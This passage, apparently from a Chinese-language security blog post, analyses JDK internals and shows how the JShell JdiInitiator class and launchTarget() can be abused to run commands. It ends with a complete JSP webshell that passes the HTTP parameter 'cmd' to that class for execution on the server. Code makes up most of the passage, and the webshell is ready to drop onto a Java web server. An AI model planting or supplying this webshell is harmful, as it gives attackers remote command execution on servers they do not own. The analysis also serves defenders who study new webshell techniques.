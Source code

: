  ![](/img/aiWebshell/8b7160bf-6bb8-4a14-b4f3-a8a883ff38e0.png) ![](https://prod-files-secure.s3.us-west-2.amazonaws.com/a116b209-23ed-47e3-b176-d57fece98279/6ce1c1fd-a721-4391-a14a-784e213a2b1a/Untitled.png)

该方法最终调用launchTarget()：

```java
private VirtualMachine launchTarget() {
        LaunchingConnector launcher = (LaunchingConnector) connector;
        try {
            VirtualMachine new_vm = timedVirtualMachineCreation(() -> launcher.launch(connectorArgs), null);
            process = new_vm.process();
            return new_vm;
        } catch (Throwable ex) {
            throw reportLaunchFail(ex, "launch");
        }
    }
```

在该方法中，调用了launcher.launch(connectorArgs)，完成命令执行。整合上述内容，可以构造WebShell如下：

```java
<%@ page import="java.util.HashMap" %>
<%@ page import="jdk.jshell.execution.JdiInitiator" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%
	HashMap h = new HashMap();
	h.put("home","");
	h.put("vmexec",request.getParameter("cmd"));
	new jdk.jshell.execution.JdiInitiator(9999,new ArrayList<>(), "", true, "",5000, h);
%>
```
